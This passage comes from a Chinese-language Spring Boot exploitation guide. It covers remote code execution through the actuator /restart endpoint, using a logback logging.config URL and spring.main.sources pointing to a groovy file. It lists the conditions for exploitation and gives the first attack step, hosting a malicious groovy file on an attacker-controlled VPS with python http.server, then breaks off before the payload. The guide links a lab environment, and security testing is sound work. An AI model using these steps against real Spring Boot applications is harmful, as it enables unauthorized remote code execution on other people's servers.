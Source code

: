 spring 2.x

```
POST /actuator/restart
Content-Type: application/json

```



#### 漏洞原理：

1. 目标机器通过 logging.config 属性设置 logback 日志配置文件 URL 地址
2. restart 重启应用后，程序会请求设置的 URL 地址
3. `logback-classic` 组件的 `ch.qos.logback.classic.util.ContextInitializer.java` 代码文件逻辑中会判断 url 是否以 `groovy` 结尾
4. 如果 url 以 `groovy` 结尾，则最终会执行文件内容中的 groovy 代码，造成 RCE 漏洞



#### 漏洞环境：

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```
http://127.0.0.1:9098/actuator/env
```



### 0x0B：restart spring.main.sources groovy RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
- ⚠️ HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出
- ⚠️ 环境中需要存在 groovy 依赖，否则会导致程序异常退出



#### 利用方法：

##### 步骤一：托管 groovy 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```



在根目录放置以 `groovy` 结尾的  `example.groovy` 文件，内容为需要执行的 groovy 代码，比如：
